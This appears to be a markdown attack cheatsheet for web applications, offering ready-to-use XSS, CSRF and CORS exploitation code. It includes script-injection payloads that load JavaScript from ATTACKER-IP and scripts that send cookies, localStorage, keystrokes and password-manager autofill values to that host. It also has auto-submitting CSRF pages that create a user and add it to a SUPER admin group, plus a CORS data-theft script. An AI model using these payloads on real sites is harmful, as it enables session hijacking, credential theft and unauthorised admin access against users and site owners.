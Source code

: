 # XSS and CSRF Attack Cheatsheet

## Table of Contents
- [Basic XSS Setup](#basic-xss-setup)
- [XSS Payloads](#xss-payloads)
- [Cookie Stealing](#cookie-stealing)
- [LocalStorage Exfiltration](#localstorage-exfiltration)
- [Keylogging with XSS](#keylogging-with-xss)
- [Password Stealing](#password-stealing)
- [CSRF Attacks](#csrf-attacks)
- [CORS Misconfiguration Testing](#cors-misconfiguration-testing)

## Basic XSS Setup

### Setting Up the Attacker Server
Start a simple HTTP server on your attack machine to serve malicious JavaScript and receive stolen data:

```bash
python3 -m http.server 80
```

### Create JavaScript Exfiltration File
Create a file called `xss.js` to extract and send data back to your server:

```bash
nano xss.js
```

## XSS Payloads

### Basic Script Tag Injection
```html
<script src="http://ATTACKER-IP/xss.js"></script>
```

### Image Error Event Payload
```html
<img src="x" onerror="var s=document.createElement('script'); s.src='http://ATTACKER-IP/xss.js'; document.body.appendChild(s);">
```

### Anti-Caching Payload (Prevents 304 Not Modified)
```html
<img src="x" onerror="var s=document.createElement('script'); s.src='http://ATTACKER-IP/xss.js?' + Math.random(); document.body.appendChild(s);">
```

### Alternative XSS Vectors
```html
<input type="text" value="var s=document.createElement('script'); s.src='http://ATTACKER-IP/xss.js'; document.body.appendChild(s);">

<div onmouseover="var s=document.createElement('script'); s.src='http://ATTACKER-IP/xss.js'; document.body.appendChild(s);">Hover Me</div>

<a href="#" onclick="var s=document.createElement('script'); s.src='http://ATTACKER-IP/xss.js'; document.body.appendChild(s);">Click Me</a>
```

## Cookie Stealing

### Cookie Exfiltration Script (xss.js)
```javascript
let cookie = document.cookie;
let encodedCookie = encodeURIComponent(cookie);
fetch("http://ATTACKER-IP/exfil?data=" + encodedCookie);
```

## LocalStorage Exfiltration

### LocalStorage Stealing Script (xss.js)
```javascript
let data = JSON.stringify(localStorage);
let encodedData = encodeURIComponent(data);
fetch("http://ATTACKER-IP/exfil?data=" + encodedData);
```

## Keylogging with XSS

### Keylogger Script (xss.js)
```javascript
function logKey(event) {
    fetch("http://ATTACKER-IP/k?key=" + event.key);
}

document.addEventListener('keydown', logKey);
```

## Password Stealing

### Credential Stealing via Password Manager Auto-fill (xss.js)
```javascript
let body = document.getElementsByTagName("body")[0];

var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
u.style.opacity = "0";
  
var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
p.style.opacity = "0";
 
body.append(u);
body.append(p);
 
setTimeout(function() { 
  fetch("http://ATTACKER-IP/k?u=" + u.value + "&p=" + p.value);
}, 5000);
```

## CSRF Attacks

### Basic CSRF Form to Create User
Create HTML file to add a new user with admin privileges:

```html
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://TARGET-APP/webtools/control/createUserLogin" method="post" name="csrf">
    <input type="hidden" name="enabled">
    <input type="hidden" name="partyId">
    <input type="hidden" name="userLoginId" value="csrftest">
    <input type="hidden" name="currentPassword" value="password">
    <input type="hidden" name="currentPasswordVerify" value="password">
    <input type="hidden" name="passwordHint">
    <input type="hidden" name="requirePasswordChange" value="N">
    <input type="hidden" name="externalAuthId">
    <input type="hidden" name="securityQuestion">
    <input type="hidden" name="securityAnswer">
  </form>
</body>
</html>
```

### Advanced CSRF with Multiple Actions
CSRF attack that creates a user and adds them to an admin group:

```html
<html>
<head>
<script>
  function submitForms() {
    document.forms['csrf'].submit();
    setTimeout(function() {
      document.forms['csrf2'].submit();
    }, 1000);  // Wait 1 second before submitting the second form
    return false;
  }
</script>
</head>
<body onload="submitForms();">
  <form action="https://TARGET-APP/webtools/control/createUserLogin" method="post" name="csrf">
    <input type="hidden" name="enabled">
    <input type="hidden" name="partyId">
    <input type="hidden" name="userLoginId" value="csrftest">
    <input type="hidden" name="currentPassword" value="password">
    <input type="hidden" name="currentPasswordVerify" value="password">
    <input type="hidden" name="passwordHint">
    <input type="hidden" name="requirePasswordChange" value="N">
    <input type="hidden" name="externalAuthId">
    <input type="hidden" name="securityQuestion">
    <input type="hidden" name="securityAnswer">
  </form>
  <form action="https://TARGET-APP/webtools/control/userLogin_addUserLoginToSecurityGroup" method="post" name="csrf2" target="_blank">
    <input type="hidden" name="userLoginId" value="csrftest">
    <input type="hidden" name="partyId">
    <input type="hidden" name="groupId" value="SUPER">
    <input type="hidden" name="fromDate_i18n">
    <input type="hidden" name="fromDate">
    <input type="hidden" name="thruDate_i18n">
    <input type="hidden" name="thruDate">
  </form>
</body>
</html>
```

### Hosting CSRF Files
```bash
sudo cp your-csrf-file.html /var/www/html/
sudo systemctl restart apache2
```

## CORS Misconfiguration Testing

### Test for CORS Configuration
```bash
curl -X "OPTIONS" -i -k https://TARGET-APP/allowlist
```

### Test Origin Header Manipulation
```bash
curl -X "OPTIONS" -i -H "Origin: http://www.target-security.com" -k https://TARGET-APP/allowlist
```

### Test Domain Suffix Manipulation
```bash
curl -X "OPTIONS" -i -H "Origin: http://www.target-security.net" -k https://TARGET-APP/allowlist
```

### Test Domain Prefix Manipulation
```bash
curl -X "OPTIONS" -i -H "Origin: http://faketarget-security.com" -k https://TARGET-APP/allowlist
```

### Test Subdomain Manipulation
```bash
curl -X "OPTIONS" -i -H "Origin: http://evil.target-security.com" -k https://TARGET-APP/allowlist
```

### CORS Exploitation JavaScript (in xss.js)
```javascript
// This can be used after confirming a CORS misconfiguration
fetch('https://vulnerable-site/api/sensitive-data', {
  method: 'GET',
  credentials: 'include'  // Sends cookies with the request
})
.then(response => response.json())
.then(data => {
  fetch('http://ATTACKER-IP/corsdata?data=' + encodeURIComponent(JSON.stringify(data)));
});
```
